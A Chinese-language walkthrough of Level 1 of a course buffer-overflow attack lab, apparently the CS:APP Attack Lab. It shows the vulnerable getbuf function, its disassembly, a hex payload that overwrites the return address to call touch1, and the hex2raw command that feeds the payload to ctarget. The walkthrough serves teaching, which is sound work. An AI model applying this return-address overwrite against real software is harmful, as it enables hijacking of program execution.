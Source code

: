 讲义中给出了本次攻击实验的关键函数。
``` C
unsigned getbuf()
{
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```
`getbuf` 函数首先定义了局部变量 `buf`，然后调用 `Gets` 函数，从标准输入中读取字符至 `buf` 中，由于没有对长度进行严格的检查，读取的字符数可能会超过 `BUFFER_SIZE`，从而破坏了 `getbuf` 函数甚至函数之外的栈帧结构。

## Part 1: 代码注入攻击
代码注入攻击就是通过读取超过 `BUFFER_SIZE` 长度的字符对函数栈帧的返回地址进行了修改，从而使得 `ret` 指令没有正常的返回，而使 `IP` 指向了未知的地方，执行了未知的指令。
### Level 1
`Level 1` 不需要我们注入攻击代码，只需要我们执行程序本身自带的函数 `touch1` 即可。

下面是调用 `getbuf` 和 `touch1` 的代码。
``` C
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```
``` C
void touch1()
{
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

看看 `getbuf` 的汇编代码：
``` asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret    
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
栈指针减 `0x28`，然后栈 rsp 赋值给 rdi，rdi 作为参数调用 `Gets`，所以 `getbuf` 中 `BUFFER_SIZE` 应该就是 `0x28`，大于 `0x28` 的 8 个字节作为返回地址，所以将 `0x28` 后面的 8 个字节更改为 `touch1` 的函数入口地址即可。前面的 `0x28` 个字节可以是任意字符，这里就全设为 00 即可。
``` txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
最后一个字节就是入口地址(小端序)。将这段序列写入文件 `1-1.txt` 中，使用 `hex2raw` 程序帮助我们生成字符串。
> ./hex2raw -i 1-1.txt | ./ctarget -q
